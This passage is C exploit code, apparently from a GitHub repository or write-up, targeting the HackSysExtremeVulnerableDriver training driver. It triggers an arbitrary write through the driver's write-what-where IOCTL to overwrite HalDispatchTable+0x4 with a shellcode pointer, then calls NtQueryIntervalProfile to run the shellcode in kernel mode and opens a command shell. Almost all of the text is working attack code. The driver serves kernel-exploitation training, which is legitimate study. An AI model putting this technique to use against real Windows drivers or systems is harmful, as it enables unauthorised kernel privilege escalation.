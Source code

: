 ```c
	printf("[+]Start to trigger...\n");

	DeviceIoControl(hDevice,
		Write_What_Where,
		&exploit,
		sizeof(WRITE_WHAT_WHERE),
		NULL,
		0,
		&lpbReturn,
		NULL);

	printf("[+]Success to trigger...\n");
}


BOOL init()
{
	// Get HANDLE
	hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",
		GENERIC_READ | GENERIC_WRITE,
		NULL,
		NULL,
		OPEN_EXISTING,
		NULL,
		NULL);

	printf("[+]Start to get HANDLE...\n");
	if (hDevice == INVALID_HANDLE_VALUE || hDevice == NULL)
	{
		return FALSE;
	}
	printf("[+]Success to get HANDLE!\n");
	return TRUE;
}

int main()
{
	DWORD interVal = 0;

	if (init() == FALSE)
	{
		printf("[+]Failed to get HANDLE!!!\n");
		system("pause");
		return 0;
	}

	DWORD32 Hal_hook_address = GetHalOffset_4();

	printf("[+]HalDispatchTable+0x4 is 0x%p\n", Hal_hook_address);

	Trigger_shellcode((PULONG_PTR)Hal_hook_address, (PVOID)&ShellCode);

	NtQueryIntervalProfile_t NtQueryIntervalProfile = (NtQueryIntervalProfile_t)GetProcAddress(LoadLibraryA("ntdll.dll"), "NtQueryIntervalProfile");

	printf("[+]NtQueryIntervalProfile address is 0x%x\n", NtQueryIntervalProfile);

	NtQueryIntervalProfile(0x1337, &interVal);

	printf("[+]Start to Create cmd...\n");
	CreateCmd();

	system("pause");
```